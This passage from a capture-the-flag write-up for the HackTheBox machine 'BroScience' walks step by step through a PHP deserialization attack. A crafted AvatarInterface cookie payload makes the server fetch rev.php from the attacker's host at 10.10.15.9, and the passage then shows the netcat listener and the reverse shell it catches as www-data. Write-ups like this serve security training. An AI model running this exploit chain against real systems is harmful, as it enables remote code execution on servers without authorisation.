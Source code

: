 Look at the following class this class uses the `__wakeup()` magic method, what's so magical you may ask, well this method is called automatically by PHP when a serialized object is getting deserialized. That is great because if we create a payload as an AvatarInterface class object and serialize it to then be deserialized as the cookie, it will call the `__wakeup()` method that creates a file and saves it at the server and that file could be a php reverse shell. So enough with the theoretical stuff lets start the fun.

1. First thing first lets create the payload, I copied the classes Avatar and AvatarInterface to a file and called it payload.php, in that file right under everything I entered the following command: `echo( urlencode(base64_encode(serialize(new AvatarInterface))) )` what this does is it creates a serialized AvatarInterface object, base64 encode it then url encode it. 
2. Now I made some changes to the AvatarInterface class it looks like this now:
```

class AvatarInterface {
    public $tmp = "http://10.10.15.9/rev.php";
    public $imgPath = "./rev.php"; 

    public function __wakeup() {
        $a = new Avatar($this->imgPath);
        $a->save($this->tmp);
    }
}

```

3. save the file and run it:
```
$ php payload.php
TzoxNToiQXZhdGFySW50ZXJmYWNlIjoyOntzOjM6InRtcCI7czoyNzoiaHR0cDovLzEwLjEwLjE1Ljkvc2hlbGwucGhwIjtzOjc6ImltZ1BhdGgiO3M6MTE6Ii4vc2hlbGwucGhwIjt9
```
we got ourselves a payload
4. Now you want to host a http server(`$ python3 -m http.server 80`) and send the payload as the user_pref cookie.
5. After that you want to open a netcat listener on the port you specified on your rev.php. `$ nc -lnvp 9999`
6. Last thing to do after forwarding the request go to the file you created which is rev.php like so: https://broscience.htb/rev.php 

```

$ nc -lnvp 9999                  
listening on [any] 9999 ...
connect to [10.10.15.9] from (UNKNOWN) [10.10.11.195] 38360
Linux broscience 5.10.0-20-amd64 #1 SMP Debian 5.10.158-2 (2022-12-13) x86_64 GNU/Linux
 14:51:19 up 1 day, 13:45,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ which python3
/usr/bin/python3
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
bash-5.1$ whoami
www-data

```
